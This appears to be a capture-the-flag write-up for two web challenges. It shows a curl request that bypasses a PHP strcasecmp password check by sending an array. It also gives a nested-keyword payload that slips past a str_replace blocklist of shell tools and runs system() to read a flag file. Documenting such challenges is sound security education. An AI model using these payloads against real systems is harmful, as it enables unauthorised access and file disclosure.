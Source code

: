 # Just Not My Type
Author: ZeroDayTea  
Description: I really don't think we're compatible ([Link](http://143.198.184.186:7000/))

----------------------------------------------------
Exploit in strcasecmp function. Payloads: `curl -F "password[]=a" http://143.198.184.186:7000/`  
=>
``` html
<h1>I just don't think we're compatible</h1>

<br />
<b>Warning</b>:  strcasecmp() expects parameter 1 to be string, array given in <b>/var/www/html/index.php</b> on line <b>9</b><br />
flag{no_way!_i_took_the_flag_out_of_the_source_before_giving_it_to_you_how_is_this_possible}
<form method="POST">
    Password
    <input type="password" name="password">
    <input type="submit">
</form>
```

flag: `flag{no_way!_i_took_the_flag_out_of_the_source_before_giving_it_to_you_how_is_this_possible}`

# PHat Pottomed Girls  
Author: ZeroDayTea
Description: Now it's attempt number 3 and this time with a Queen reference! (flag is in the root directory) ([Link](http://143.198.184.186:7001/))  
[phatpottomedgirls.zip](https://2021.killerqueenctf.org/Public/phatpottomedgirls.zip)

-------------------------------------------------------------
All we have to do is creating a payload that can read the flag file in the root directory. Also, this challenge filters these words: 
```php
function filter($originalstring)
{
    $notetoadd = str_replace("<?php", "", $originalstring);
    $notetoadd = str_replace("?>", "", $notetoadd);
    $notetoadd = str_replace("<?", "", $notetoadd);
    $notetoadd = str_replace("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("system", "", $notetoadd);

    return $notetoadd;
}
```
But it just filters 3 times, so when we write this: `strstristrstringsingsngsings`, it will just return `strings`. That's how we bypass the filter.  
First, I used `pwd` to print the working directory, it returned `\var\www\html`. So I just had to go to root directory, use `ls` to see which files are in there, and `strings` it.
Payload here: `<<<<????php $last_line = syssyssyssystemtemtemtem('cd ..; cd ..; cd ..; strstristrstringsingsngsings flflflflagagagag.php'); echo $last_line; ?>`  

Flag: `flag{wait_but_i_fixed_it_after_my_last_two_blunders_i_even_filtered_three_times_:(((}`

